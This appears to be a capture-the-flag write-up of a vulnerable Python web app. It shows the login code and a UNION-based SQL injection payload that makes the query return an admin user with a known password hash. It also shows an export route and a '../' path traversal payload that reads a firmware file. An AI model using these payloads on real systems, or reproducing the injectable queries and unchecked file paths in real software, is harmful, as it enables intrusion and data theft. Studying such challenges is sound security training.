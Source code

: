 The utl.login function exposes a SQL injection.
```py
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```
This can be used to return an admin user with a known password.
```json
{
    "username": "A\" UNION SELECT \"admin\", \"7815696ecbf1c96e6894b779456d330e\" FROM users WHERE username = \"admin",
    "password": "asd"}
```

The `/api/export` route gives us a path traversal
```py
def exportFile():
    ...
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
```
```json
{
    "name":  "../../../signal_sleuth_firmware"
}
```
